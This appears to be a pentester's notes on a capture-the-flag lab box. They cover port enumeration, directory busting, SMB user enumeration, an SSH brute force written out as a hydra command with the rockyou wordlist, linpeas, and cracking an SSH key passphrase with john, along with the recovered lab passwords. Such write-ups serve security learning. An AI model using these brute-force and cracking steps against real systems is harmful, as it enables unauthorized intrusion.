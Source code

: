 # Basic pentest

IP: `10.10.165.236`

## Open ports
22
80 - Apache/2.4.18 (Ubuntu)
139
445 
8009
8080 - Apache Tomcat/9.0.7

## Findings
use dirbuster
- found: `/development`

## In /development
- note: for J from K / easy password
- note: K - strut staff 2.5.12 REST? Apache struts?
- note: K - configured SMB
- note:J - deployed Apache

## Samba
for samba use enum4linux

found:
- `jan`
- `kay`

## SSH enumaration
use hydra for ssh enum, with rockyou dictionary:
hydra -l jan -P /home/ryusei/Tools/basic_pen_tools/wordlists/rockyou.txt ssh://10.10.165.236

found:
- credentials: `jan` `armando` 

## search for clues
scp linpeas
chmod linpeas, run it

found:
- 127.0.0.1:8005 loopback
- /home/kay/.ssh/id_rsa - password protected

download it, give it to john:
- run ssh2john fir correct format
- run john hash --dictionary=...rockyou.txt 
 -> password hash not ... -> John version 1.8.0 -> update to 1.9.x

found:
- password beeswax

## SSH
ssh -i id_rsa kay@ip

ls -> find backup file
found:
- heresareallystrongpasswordthatfollowsthepasswordpolicy$$
